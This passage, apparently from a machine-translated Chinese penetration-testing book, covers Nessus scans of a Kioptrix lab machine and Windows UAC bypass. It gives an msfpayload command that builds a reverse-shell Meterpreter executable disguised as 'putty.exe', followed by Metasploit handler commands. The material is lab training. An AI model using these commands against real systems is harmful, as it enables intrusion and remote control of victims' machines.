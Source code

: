 我们将再尝试一次扫描作为一个示例，以查看扫描仪在遇到 Linux 目标时检测到什么。我们要做的第一个扫描是在我们之前创建的 Kioptrix 机器上使用 Nessus 进行扫描。Kioptrix 机器的 Nessus 网络扫描示例如以下屏幕截图所示：

![Scanning with credentials](graphics/477-1_10_27.jpg)

显示 Kioptrix 机器 Nessus 网络扫描示例的屏幕（裁剪文本不重要）

更像是这样！我们至少可以检测到非常脆弱的 Linux 机器。这就是为什么我们测试我们的射程；我们想知道我们能检测到什么，不能检测到什么。因此，根据本节，FreeBSD Unix 机器没有透露太多信息，但 Windows 和 Linux 机器透露了很多信息。当您进行测试时，最好知道这一点。如果您运行到一台 Unix 机器上，您知道，一旦您完成了其他机器的所有详细信息，您就可以在测试结束时保存它。

# 处理主机保护

我们知道我们可能会遇到更多的宿主保护；因此，在我们的笔测试实验室中，我们希望测试不同的主机保护，看看我们能做什么和不能做什么。这是一个同样依赖于管理员和我们所面对的团队的领域。一台运行着很少服务的加固的机器将对我们的测试提出挑战。

## 用户账号控制

我们将要遇到的最常见的事情之一是**用户帐户控制**（**UAC**）；这是，因为它在默认情况下处于打开状态，并且在站点安装 Windows 时很少更改。UAC 的一个优点是用户习惯于点击。因此，如果有什么东西突然出现说它需要许可，用户很可能会点击它。我们可以利用这一优势，但用户可能永远不会点击。因此，在这些情况下，我们依靠某种形式的 UAC 旁路来通过 UAC 保护。

在 metasploit 框架中，有一个 UAC 旁路，它是一个位于 MeterMeter 外壳中的函数。有关 UAC 的参考和绕过 UAC 的方法，请参考[http://journeyintoir.blogspot.com/2013/03/uac-impact-on-malware.html](http://journeyintoir.blogspot.com/2013/03/uac-impact-on-malware.html) 。

在大多数情况下，要利用 Windows7 机器，我们需要某种形式的客户端攻击。我们将在本书后面讨论这些攻击。现在，我们将使用简单的方法创建一个可执行文件，然后将其发送到受害者机器。当执行时，这将为我们提供一个进入 Windows7 机器的外壳。一旦我们有了 shell，那么就只需要通过不同的过程来尝试绕过 UAC 并在机器上获得系统级权限。

我们要做的第一件事是验证机器上是否启用了 UAC 设置。导航至**控制面板****行动中心****更改用户账户控制设置**即可找到设置。这将打开 UAC 的设置。以下屏幕截图显示了一个示例：

![User Account Control](graphics/477-1_10_37.jpg)

我们将创建一个可执行文件，并将其传输到 Windows 7 虚拟机，以向我们提供被利用机器的第一个外壳。我们将使用 metasploit 的可执行文件功能。

我们首先需要创建一个可执行文件，作为从 Windows7 机器返回到 Kali Linux 机器的连接。我们在 metasploit 工具中具有此功能。在您的 Kali Linux 机器中，打开终端窗口并输入`msfconsole`以打开 metasploit 工具。metasploit 工具出现后（需要一分钟），输入以下命令：

```
msfpayload windows/meterpreter/reverse_tcp LHOST = <IP ADDRESS OF Kali> LPORT=123 X > putty.exe

```

这将创建名为`putty`的可执行文件，其中包含从网络到 Kali 机器的连接的有效负载和连接信息。

正在输入和完成的命令示例如以下屏幕截图所示：

![User Account Control](graphics/477-1_10_38.jpg)

显示正在输入和完成的命令示例的屏幕（裁剪的文本不重要）

我们已经创建了该文件，需要将其从我们的机器中传送给受害者。我们可以使用某种形式的社会工程；但是，出于我们的目的，在实验室环境中，我们只需将文件拖放到受害者计算机中。

我们需要做的下一件事是设置 metasploit 工具；我们通过输入以下命令来执行此操作：

*   `use exploit/multi/handler`
*   `set PAYLOAD windows/meterpreter/reverse_tcp`
*   `set LHOST <Kali IP>`
*   `set LPORT 123`
*   `exploit`
